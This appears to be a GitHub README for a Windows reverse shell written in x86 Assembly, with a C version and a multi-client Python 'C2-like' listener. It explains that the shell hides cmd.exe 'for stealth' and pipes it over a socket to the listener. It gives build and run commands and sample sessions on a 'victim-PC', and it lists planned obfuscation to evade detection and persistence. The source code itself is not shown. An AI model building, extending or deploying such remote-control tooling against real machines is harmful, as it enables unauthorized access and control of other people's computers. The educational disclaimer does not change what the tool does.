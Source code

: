 
# **x86-Assembly-ReverseShell** 📡  
A **pure x86 Assembly** reverse shell for Windows that connects to a remote listener for command execution. Uses **Winsock**, **Windows Job Objects** for process management, and redirects **stdin, stdout, stderr** to the socket for full interactive control. Includes a **C equivalent** and a **Python listener** for testing.

---

## **Features**
- Pure Assembly – No dependencies, fully written in x86 Assembly.  
- Reverse Shell – Connects back to a remote listener.  
- Interactive Shell – Redirects input, output, and error streams to the socket.  
- Job Object Protection – Ensures `cmd.exe` is terminated if the connection drops.  
- Minimal Footprint – Small, fast, and runs without extra libraries.  
- C Equivalent – 1:1 C code provided for reference.  
- Python Listener – Basic C2-like listener included for testing.  
- Batch Compilation – Pre-made `.bat` file for quick assembly and linking.  

---

## **Project Structure**
```
/x86-Assembly-ReverseShell
│── reverse_shell.asm  # Main Assembly reverse shell
│── reverse_shell.c    # 1:1 C equivalent source code
│── requirements.txt   # Listener dependencies
│── compile.bat        # Windows batch script to compile & link automatically
│── listener.py        # Python-based listener (C2-like functionality)
│── listener_linux.py  # Python-based listener for linux
│── README.md          # Project documentation
```

---

## **How It Works**
1. Creates a TCP connection to `127.0.0.1:4444` (**hardcoded in Assembly**).
   - To change the IP/Port, manually modify the `sockaddr_in` structure in `reverse_shell.asm`.
2. Redirects stdin, stdout, stderr of `cmd.exe` to the socket.  
3. Runs `cmd.exe` in hidden mode for stealth execution.  
4. Uses a Windows Job Object (`JOB_OBJECT_LIMIT_KILL_ON_JOB_CLOSE`) to ensure process cleanup.  
5. Communicates with the listener (`listener.py`) for remote command execution.  

---

## **Setup & Installation**
### **1. Install Python (if not already installed)**
Ensure Python 3.x is installed.  
To check, run:
```bash
python3 --version
```
or on Windows:
```cmd
python --version
```

### **2. Install Dependencies**
`listener.py` requires `colorama` for colored output and `pyreadline3` (Windows only).  
To install dependencies, run:
```bash
pip install -r requirements.txt
```
If you're on **Windows**, also install:
```bash
pip install pyreadline3
```

---

## **Using `listener.py`**
### **1. Start the Listener**
```bash
python3 listener.py
```
By default, it listens on `0.0.0.0:4444`, allowing connections from **any IP**.  
You can **customize the listener IP & port**:
```bash
python3 listener.py --ip 192.168.1.100 --port 8080
```

### **2. Wait for Incoming Connections**
Once a reverse shell connects, you'll see:
```bash
[2025-02-23 16:30:20] New connection from 192.168.1.10:50234
```

### **3. Interact with the Reverse Shell**
Simply type commands:
```bash
Shell> whoami
admin-PC\admin
Shell> dir
 Volume in drive C has no label.
 Directory of C:\Users\admin
```

### **4. List Connected Clients**
Use `clients` to see active sessions:
```bash
SHELL> clients
--------------------------------------------------
  [0] 192.168.1.10:50234 - ACTIVE
  [1] 192.168.1.12:50240 - IDLE
--------------------------------------------------
```

### **5. Switch Between Clients**
Select a client by ID:
```bash
SHELL> switch 1
[2025-02-23 16:31:10] Switched to client 192.168.1.12:50240
Client 1> whoami
victim-PC\user
```

### **6. Built-in Commands**
| **Command** | **Description** |
|------------|----------------|
| `clients`  | Show connected clients |
| `switch <id>` | Switch to a specific client |
| `sessions` | List saved sessions |
| `id`       | Show the current client ID |
| `info`     | Show current client system info |
| `clear`    | Clear the terminal |
| `help`     | Show this help menu |
| `exit`     | Close the current session |

---
---

## **Compilation & Execution**
### **Method 1: Using `compile.bat` (Recommended)**
A **Windows batch script** (`compile.bat`) is included for **automatic assembly and linking**.  

Run:
```cmd
compile.bat
```
This will:
- Assemble `reverse_shell.asm` using `nasm`
- Link it using `link.exe` (Windows default linker)

### **Method 2: Manual Compilation**
#### **Using `nasm` and `link.exe`**
```cmd
nasm -f win32 reverse_shell.asm -o reverse_shell.obj
link /entry:Start /subsystem:console reverse_shell.obj kernel32.lib ws2_32.lib
```

#### **Using `nasm` and `mingw-w64` (`ld`)**
```cmd
nasm -f win32 reverse_shell.asm -o reverse_shell.o
ld -o reverse_shell.exe reverse_shell.o -lkernel32 -lws2_32
```

---

### **Running the Reverse Shell**
After compiling, execute:
```cmd
reverse_shell.exe
```
Ensure the listener (`listener.py`) is **running before executing the shell**.

---

## **Security & Legal Notice**
> **⚠️ Disclaimer:**  
> This project is for **educational and research purposes only**.  
> Unauthorized use on **live systems** is illegal. Always test in **controlled environments (VMs, labs, or CTFs)**.  

---

## **Future Enhancements**
- Encrypt communication (e.g., XOR, AES).  
- Obfuscate Assembly code to evade signature-based detection.  
- Implement persistence mechanisms for maintaining access.  
- Add support for additional platforms (Linux/macOS).  

---

## **References**
- [Windows API Documentation](https://docs.microsoft.com/en-us/windows/win32/api/)
- [Winsock Programming](https://docs.microsoft.com/en-us/windows/win32/winsock/)
- [NASM Assembly Guide](https://www.nasm.us/)

---
